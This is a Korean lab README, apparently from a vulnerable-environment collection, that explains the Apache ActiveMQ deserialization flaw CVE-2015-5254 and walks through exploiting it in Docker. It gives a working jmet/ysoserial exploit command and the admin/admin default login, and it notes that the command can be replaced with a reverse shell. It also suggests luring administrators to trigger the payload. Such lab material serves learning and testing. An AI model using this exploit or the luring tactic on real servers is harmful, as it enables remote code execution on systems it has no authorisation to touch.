 # ActiveMQ 직렬화 취약점 (CVE-2015-5254)

[中文版本(Chinese version)](README.zh-cn.md)

Apache ActiveMQ는 미국 아파치(Apache) 소프트웨어 재단에서 개발한 오픈 소스 메시징 미들웨어로, Java 메시징 서비스, 클러스터링, Spring 프레임워크 등을 지원합니다.

Apache ActiveMQ 버전 5.x에서 5.13.0 이전에는 보안 취약점이 존재합니다. 이 취약점은 프로그램이 프록시에서 직렬화할 수 있는 클래스를 제한하지 않아 발생합니다. 원격 공격자는 특수하게 직렬화된 Java 메시징 서비스 (JMS) ObjectMessage 객체를 만들어 이 취약점을 이용하여 임의의 코드를 실행할 수 있습니다.

참고 링크:

- https://www.blackhat.com/docs/us-16/materials/us-16-Kaiser-Pwning-Your-Java-Messaging-With-Deserialization-Vulnerabilities.pdf

## 취약한 환경


취약한 환경을 시작합니다:

```
docker compose up -d
```

환경을 실행한 후 61616 포트와 8161 포트에 두 개의 포트가 설정됩니다. 61616 포트는 작업 포트이며, 메시지가 이 포트로 전달됩니다. 8161 포트는 웹 페이지 관리 페이지 포트입니다. http://your-ip:8161로 접속하면 네트워크 관리 페이지를 볼 수 있지만, 이 취약점은 이론적으로 네트워크가 필요하지 않습니다.

## Exploit

Exploit 과정은 다음과 같습니다:

1. 직렬화된 payload를 생성합니다 (ysoserial을 사용할 수 있습니다).
2. payload를 61616 포트로 전송합니다.
3. 웹 관리 페이지에 접속하여 직렬화된 메시지를 읽으면 취약점을 트리거할 수 있습니다.





이 환경을 이용하기 위해 jmet (Java Message Exploitation Tool)을 사용할 것입니다. 먼저 jmet의 jar 파일을 다운로드하고 동일한 디렉토리에 external이라는 폴더를 만듭니다 (그렇지 않으면 폴더가 없다는 오류가 발생할 수 있습니다).

jmet은 ysoserial을 사용하여 payload를 생성하고 전송하는 도구입니다 (이 jar 파일에는 ysoserial이 함께 제공되므로 다시 다운로드할 필요가 없습니다). 따라서 ysoserial에서 사용할 수 있는 gadget으로 선택할 옵션을 선택해야 합니다. 예를 들어 ROME을 선택할 수 있습니다.

실행:

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME your-ip 61616
```

![](1.png)

이제 event라는 이름의 큐가 대상 ActiveMQ에 추가됩니다.

http://your-ip:8161/admin/browse.jsp?JMSDestination=Event을 방문하여 이 큐의 모든 메시지를 볼 수 있습니다.

(**login / password:** admin/admin):

![](2.png)

이 메시지를 클릭하여 명령을 실행하면 docker compose exec activemq bash를 사용하여 컨테이너 내부로 이동할 수 있습니다.

/tmp/success가 성공적으로 생성된 것을 볼 수 있습니다. 이는 성공적으로 exploit이 수행되었음을 나타냅니다.

![](3.png)

명령을 역쉘 명령으로 바꾸고 다시 사용할 수 있습니다.
![](4.png)

웹 관리 페이지를 통해 메시지에 액세스하고 취약점을 트리거하려면 관리자 권한이 필요합니다. 비밀번호가 없는 경우 관리자가 우리의 링크를 방문하도록 유도하거나 다른 서비스의 정당한 메시지로 위장하여 클라이언트 액세스를 기다려야 할 수 있습니다.